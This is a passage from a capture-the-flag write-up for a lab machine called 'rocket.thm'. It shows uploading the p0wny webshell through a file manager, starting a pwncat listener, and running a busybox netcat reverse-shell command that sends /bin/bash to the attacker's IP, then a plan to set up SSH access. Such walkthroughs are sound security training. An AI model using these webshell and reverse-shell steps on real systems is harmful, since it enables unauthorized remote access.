 ![accept](./pics/accept.png)

Now we go to __"File management-> Uploaded Files-> people folder-> File Uploader and we upload this [webshell](https://github.com/flozz/p0wny-shell)-> http://rocket.thm/files/people/rev.php"__ we have a webshell, we redirect as usually to pwncat:
```bash
python3 -m pwncat -lp 12004 #listener

busybox nc 10.8.98.143 12004 -e /bin/bash #revshell to enter in webshell
```
We're in and we can submit the first flag.

There is a problem with __"sudo"__ command indeed we enter via webshell instead of to do authentication against pam, we can fix it by set up SSH access:

![ssh](./pics/ssh.png)
